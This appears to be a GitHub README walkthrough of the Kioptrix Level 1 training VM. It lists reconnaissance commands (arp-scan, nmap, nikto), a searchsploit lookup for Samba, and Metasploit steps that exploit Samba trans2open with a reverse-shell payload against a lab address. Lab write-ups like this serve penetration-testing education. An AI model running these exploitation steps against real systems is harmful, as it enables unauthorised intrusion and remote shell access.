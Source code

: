 # Kioptrix-Level-1
Join me as we embark on a journey through this virtual labyrinth, where we'll uncover vulnerabilities, exploit weaknesses, and ultimately conquer the system.
# 1. Reconnaissance:
```bash
  arp-scan -l  Or  sudo netdiscover
```
## Employed Nmap to identify open ports and services. 
```bash
 nmap -sV -A  <Enter Kioptrix IP (10.0.2.5)> Or sudo nmap kioptrix -sV -p- -O -T4 -oN nmap <Enter Kioptrix IP (10.0.2.5)>
```
## For nikto scan 
```bash
nikto http://10.0.2.5
```
# 2. Vulnerability Identification:
To find vulnerabilities , we need to know the samba version :

The searchsploit command is designed to uncover valuable information within the Exploit Database: 
```bash
searchsploit samba
```
# 3. Exploitation:
## The following commands can be used to launch Metasploit.
execute 
```bash 
sudo msfconsole
```
## Then we search the vulnerability and configure options for exploitation.
```bash
search samba version command to search exploit
```
## Use 
```bash 
exploit/linux/samba/trans2open
```
We can use options command to see the options.

```bash
Options
```
We can use options command to see the options.

## Use:-
msf exploit(linux/samba/trans2open) >

```bash
set RHOST <target Ip(10.0.2.5)>
```

msf exploit(linux/samba/trans2open) > 
```bash 
set RPORT 139
```
msf exploit(linux/samba/trans2open) > 
```bash
set payload linux/x86/shell_reverse_tcp
```
msf exploit(linux/samba/trans2open) > 
```bash 
exploit
```
# Congratulations, you've conquered Kioptrix Level 1!





